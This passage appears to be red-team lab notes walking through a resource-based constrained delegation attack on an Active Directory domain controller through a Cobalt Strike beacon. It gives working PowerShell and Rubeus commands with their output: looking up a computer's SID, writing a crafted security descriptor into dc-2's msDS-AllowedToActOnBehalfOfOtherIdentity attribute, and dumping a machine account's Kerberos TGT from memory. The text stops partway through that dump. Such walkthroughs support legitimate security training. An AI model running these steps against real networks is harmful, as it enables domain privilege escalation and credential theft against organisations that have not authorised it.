 
A common means of obtaining a principal with an SPN is to use a computer account.  Since we have elevated privileges on Workstation 2, we can use that.  To start the attack, we need its SID.
```
beacon> powershell Get-DomainComputer -Identity wkstn-2 -Properties objectSid

objectsid                                   
---------                                   
S-1-5-21-569305411-121244042-2357301523-1109
```
  

We'll then use this inside an SDDL to create a security descriptor.  The content of msDS-AllowedToActOnBehalfOfOtherIdentity must be in raw binary format.
```powershell
$rsd = New-Object Security.AccessControl.RawSecurityDescriptor "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-569305411-121244042-2357301523-1109)"
$rsdb = New-Object byte[] ($rsd.BinaryLength)
$rsd.GetBinaryForm($rsdb, 0)
```
  

These descriptor bytes can then be used with `Set-DomainObject`.  However, since we're working through Cobalt Strike, everything has to be concatenated into a single PowerShell command.
```
beacon> powershell $rsd = New-Object Security.AccessControl.RawSecurityDescriptor "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-569305411-121244042-2357301523-1109)"; $rsdb = New-Object byte[] ($rsd.BinaryLength); $rsd.GetBinaryForm($rsdb, 0); Get-DomainComputer -Identity "dc-2" | Set-DomainObject -Set @{'msDS-AllowedToActOnBehalfOfOtherIdentity' = $rsdb} -Verbose

Setting 'msDS-AllowedToActOnBehalfOfOtherIdentity' to '1 0 4 128 20 0 0 0 0 0 0 0 0 0 0 0 36 0 0 0 1 2 0 0 0 0 0 5 32 0 0 0 32 2 0 0 2 0 44 0 1 0 0 0 0 0 36 0 255 1 15 0 1 5 0 0 0 0 0 5 21 0 0 0 67 233 238 33 138 9 58 7 19 145 129 140 85 4 0 0' for object 'DC-2$'

beacon> powershell Get-DomainComputer -Identity "dc-2" -Properties msDS-AllowedToActOnBehalfOfOtherIdentity

msds-allowedtoactonbehalfofotheridentity
----------------------------------------
{1, 0, 4, 128...}
```
  

Next, we use the WKSN-2$ account to perform the S4U impersonation with Rubeus.  The `s4u` command requires a TGT, RC4 or AES hash.  Since we already have elevated access to it, we can just extract its TGT from memory.
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage

[*] Current LUID    : 0x3e7

 ------------------------------------------------------------------------------------------------------------------ 
 | LUID     | UserName                     | Service                                       | EndTime              |
 ------------------------------------------------------------------------------------------------------------------ 
 | 0x3e4    | wkstn-2$ @ DEV.CYBERBOTIC.IO | krbtgt/DEV.CYBERBOTIC.IO                      | 9/13/2022 7:27:12 PM |

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x3e4 /service:krbtgt /nowrap

[*] Target service  : krbtgt
[*] Target LUID     : 0x3e4
[*] Current LUID    : 0x3e7

  UserName                 : WKSTN-2$
```